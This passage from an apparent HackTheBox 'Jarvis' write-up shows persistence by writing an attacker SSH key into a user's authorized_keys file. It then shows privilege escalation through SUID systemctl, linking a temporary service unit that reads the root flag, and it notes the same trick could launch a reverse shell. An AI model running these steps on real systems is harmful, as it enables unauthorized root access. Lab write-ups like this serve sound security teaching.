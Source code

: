 {% highlight shell %}
root@kali:~/.ssh# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
...
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
root@kali:~/.ssh# cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAA...IomvNOR1FcXBuOItl root@kali
{% endhighlight %}

<p>Then all we needed to do was insert the entry on the host.</p>

{% highlight shell %}
$ pwd
/home/pepper/.ssh
$ echo "ssh-rsa AAAAB3NzaC1yc2EAA...IomvNOR1FcXBuOItl root@kali" > authorized_keys
$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAA...IomvNOR1FcXBuOItl root@kali
{% endhighlight %}

<p>And just like that we are able to get into the host through normal ssh:</p>

{% highlight shell %}
root@kali:~/.ssh# ssh pepper@10.10.10.143
The authenticity of host '10.10.10.143 (10.10.10.143)' can't be established.
ECDSA key fingerprint is SHA256:oPoKu2vmqVfC1e3TJJ5ZB8yL/2/W2YIrglCm8FTTuSs.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.143' (ECDSA) to the list of known hosts.
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

pepper@jarvis:~$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
{% endhighlight %}

<p>Now that we have a proper shell we can turn our attention back to systemctl. As gtfobins states if systemctl <i>"runs with the SUID bit set and may be exploited to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor"</i>. They provide a POC that while it didn't work earlier, let's give it a try now that we have a proper shell. Similar to my <a href="{{ '_posts/hackthebox/2019-10-12-htb-machine-writeup.md' | relative_url }}">previous post</a> I wanted to keep it simple and go straight for the prize. This technique could be leveraged to call another reverse shell script that you previously uploaded to pop a root shell as well.</p>

{% highlight shell %}
pepper@jarvis:/tmp$ TF=$(mktemp).service
pepper@jarvis:/tmp$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output1"
> [Install]
> WantedBy=multi-user.target' > $TF
> 
pepper@jarvis:/tmp$ systemctl link $TF
Created symlink /etc/systemd/system/tmp.foyNai9pQt.service → /tmp/tmp.foyNai9pQt.service.

pepper@jarvis:/tmp$ systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.foyNai9pQt.service → /tmp/tmp.foyNai9pQt.service.

pepper@jarvis:/tmp$ cat output1
d41d8***********************
{% endhighlight %}
